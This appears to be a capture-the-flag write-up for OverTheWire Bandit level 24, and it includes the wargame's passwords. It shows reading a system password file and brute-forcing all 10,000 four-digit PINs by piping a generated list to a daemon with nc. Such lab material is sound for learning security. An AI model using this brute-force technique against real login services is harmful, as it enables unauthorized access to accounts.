 # Level 24 → Level 25

## Level Goal
A daemon is listening on `port 30002` and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.  
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

Connect to the challenge through SSH:

```sh
~$ ssh bandit24@bandit.labs.overthewire.org -p 2220 # password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

Generate a dictionary (in `/tmp/bandit24-brute-force.dic`) of all permittation we will send to the server:

```sh
bandit24@bandit:~$ CURRENT_PASSWORD=`cat /etc/bandit_pass/bandit24`
bandit24@bandit:~$ for i in {0000..9999}; do echo $CURRENT_PASSWORD $i >> /tmp/bandit24-brute-force.dic; done
```

Send all dictionary entries, to the server:

```sh
bandit24@bandit:~$ cat /tmp/bandit24-brute-force.dic | nc localhost 30002
# <truncated>
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

## Resources

Challenge: https://overthewire.org/wargames/bandit/bandit25.html